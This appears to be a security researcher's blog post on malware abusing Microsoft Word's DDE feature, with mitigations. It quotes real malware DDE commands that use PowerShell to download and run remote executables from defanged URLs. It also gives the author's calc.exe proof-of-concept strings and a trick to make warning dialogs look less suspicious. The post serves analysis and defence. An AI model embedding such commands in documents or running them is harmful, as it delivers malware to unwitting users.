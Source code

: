 ```yaml
---
layout: post
title: Word DDE Malware
categories: [Malware, Word, DDE]
excerpt:  Microsoft Word supports a legacy feature called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors.
---
```

(Estimated Reading Time: 11 minutes)

- [Word and DDEAUTO](#Word-and-DDEAUTO)
- [DDE in Past Malware](#DDE-in-Past-Malware)
- [My DDE Samples](#My-DDE-Samples)
- [Mitigations](#Mitigations)
- [References](#references)

## Word and DDEAUTO
 Microsoft Word supports a legacy feature called DDE or "Dynamic Data Exchange" that provides an interface which can be used to launch new processes and download content. Not exactly what it was originally intended for, but a handy feature for malware authors. It does present several popup warnings for the user so is not a silent attack method. However, it does still seem to be used in the wild and has been used in the past so I thought it was worth a closer look and a consolidation of information. 

It is worth noting that DDE attacks are no more effective than macro-based attacks. DDE attacks also require the user to click through a series of warnings like below. In the samples I made, I had to click through 2 warnings on Office 2016. 

![warning1](/images/warning1.jpg)
![warning2](/images/warning2.jpg)

## DDE in Past Malware
 
Hancitor Malware used DDE, reported in Oct,2017 on isc.sans.edu. The doc used the following DDE command. SHA256 hash: f945105f5a0bc8ea0d62a28ee62883ffc14377b6abec2d0841e88935fd8902d3

```
 "DdE" c:\\Windows\\System32\\cmd.exe " /k powershell.exe (New-Object System.Net.WebClient).DownloadFile('hxxp://frontiertherapycenter.com/16.exe','%TEMP%\\tvs.exe');Start-Process '%TEMP%\\tvs.exe'"
```

Necurs Botnet usd DDE, also discussed on isc.sans.edu in Oct,2017. I was able to grab this file from virusshare.com. Interestingly, when I ran strings.exe and strings.py on the file the DDE command was not found in the strings. TrID listed this file as a .docx (ie the modern Office file format) SHA256 hash:  3fa85101873d1c3447594c309ea1e324beb578843e1fab7c05189830d2def126

```
DDE C:\\Windows\\System32\\cmd.exe "/k powershell -NoP -sta -NonI -w hidden $e=(New-Object System.Net.WebClient).DownloadString('hxxp://arkberg-design.fi/KJHDhbje71');powershell -e $e "  
```

More recently [DDE was back in the news]((https://isc.sans.edu/forums/diary/Dynamic+Data+Exchange+DDE+is+Back+in+the+Wild/27116)) in Feb,2021 as part of a phishing attack to download a RAT. The sample is the older OLE word format. The file name was e-Voucher.doc. When I viewed the sample with the strings command the DDE command can be seen easily. SHA256:de966b0d005dda776a6104f999f294d62c5b1f6b6e5c6f79de5135ec66ba4ee4

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe (new-object system.net.webclient).downloadfile(' hxxp://fullhash.cloud/tmpl_c/mscalc.exe','%temp%\\mscalc.exe');start-process '%temp%\\mscalc.exe'"  \* mergeformat 
```

The website [labs.inquest.net](labs.inquest.net)
primarily focuses on deep inspection of office type documents. By visiting the site and searching for 'Heuristics' and alert on 'Microsoft Dynamic Data Exchange (DDE)' you can see a listing of all instances of DDE usage in their database. As of 3/1/21 it returned 10 results.

![inquest](/images/inquestlabs.jpg)

One of the samples in this list from inquestlabs was a bit interesting in that it obfuscated the typical C:\\windows\system32\\ path seen in above samples by using a reverse solidus char, as seen below.

![ddecmd](/images/ddecmd.jpg)

I also stubbled across these samples from [@GossiTheDog](https://twitter.com/GossiTheDog/status/918113076985163778) which had a bit more complexity to them then just downloading and executing something. This first one Creates a new user on the box, and the second one starts up IE to perform a download as seen below. I've changed the URL just so you can see the technique as the image is a bit hard to read.

```
DDEAUTO C:\\Windows\\Sysem32\\cmd.exe "/k powershell.exe $e=new-object -com internetexplorer.application; $e.visible=$true; $e.navigate2('https://www.google.com/'); powershell -e $e
```

![ddecmd](/images/iedl.jpg)

The usage of DDE is not limited to Word only. The following [linked blog](https://pentestlab.blog/2018/01/16/microsoft-office-dde-attacks/) has examples using Excel, outlook, outlock calendar appointments,etc. It is quite simple to launch calc from Excel as well using a command like this in the first row, first column of an excel sheet. I posted this Excel file on my github site as well.
```
=cmd|'/c calc.exe'!A1
```

## My DDE Samples

In my research on DDE I wanted to create a couple non-malicous samples for research that simply launch calc.exe. I have posted my samples on [my github site here](https://github.com/Cyber00011011/DDE_Samples). I created 4 Word documents. Two in the newer Word format, and 2 in the older format. These samples were made with Office 2016. At first, I didn't understand why I couldn't see the DDE command in the newer Word docx with strings.exe, but eventually realized I needed to unzip them first. It also helped reading this [blog from inquest.net on DDE](https://inquest.net/blog/2017/10/13/microsoft-office-dde-macro-less-command-execution-vulnerability).

Here is the sample command(s) I used to launch calc.exe. This lines up with the newer sample seen in 2021. I also tried the DDE C:\\Windows\\System32\\cmd.exe style command and was able to get that to work as well in Office 2016. 

```
ddeauto "c:\\\\microsoft\\\\office\\\\word\\\\document\\\\..\\\\..\\\\..\\\\..\\\\windows\\\\system32\\\\cmd.exe" "/c powershell.exe start-process 'calc.exe'"  \* mergeformat 
```

```
ddeauto "c:\\windows\\system32\\cmd.exe" "/c powershell.exe start-process 'calc.exe'"  \* mergeformat 
```
The only real difference is in how the dialog box appears to the user. In the first command the user will see a string that looks less suspicious. 

![cmd1](/images/secondcmd.jpg)

verses this which is clearly showing cmd.exe and powershell.exe which might tip a user off. 

![cmd2](/images/firstcmd.jpg)
## Mitigations

The [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440) on this topic recommends either disabling the DDE feature via a registry key below, or for customers on Windows 10 1709 or greater using the Attack Surface Reduction (ASR) Rules. 

* For Office 2010 and later versions, to disable the DDE feature via the Registry Editor

> [HKEY_CURRENT_USER\Software\Microsoft\Office\<version>\Word\Options\WordMail] DontUpdateLinks(DWORD)=1

* For Office 2007, to disable the DDE feature via the Registry Editor:

> [HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Word\Options\vpref] fNoCalclinksOnopen_90_1(DWORD)=1

## References
* Link to [Microsoft DDE Overview](https://docs.microsoft.com/en-us/windows/win32/dataxchg/dynamic-data-exchange-overviews)
* Link to [Microsoft Security Advisory](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2017/4053440)
* Link to [Necurs Botnet malspam pushes Locky using DDE attack](https://isc.sans.edu/forums/diary/Necurs+Botnet+malspam+pushes+Locky+using+DDE+attack/22946)
* Link to [Dynamic Data Exchange DDE is Back in the Wild](https://isc.sans.edu/forums/diary/Dynamic+Data+Exchange+DDE+is+Back+in+the+Wild/27116)
* Link to [Migo Kedem blog on DDE](https://medium.com/@migokedem/malware-embedded-in-microsoft-office-documents-dde-exploit-macroless-4f197387ddbd)
* Link to [My DDE Non-malicious Samples](https://github.com/Cyber00011011/DDE_Samples)